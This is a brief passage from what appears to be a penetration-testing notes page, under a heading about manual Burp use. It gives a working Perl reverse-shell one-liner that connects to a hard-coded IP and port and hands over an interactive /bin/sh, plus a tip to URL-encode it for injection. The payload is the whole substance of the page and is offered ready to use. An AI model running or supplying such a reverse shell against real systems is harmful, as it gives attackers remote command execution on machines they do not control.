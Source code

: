 ### WITH BURP \(MANUAL\)

```text
perl -e 'use Socket;$i="10.10.0.63";$p=5314;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

* Don't forget to URL ENCODE

![](../.gitbook/assets/25ac588693424838bf65a2c2bc6e9aed.png)
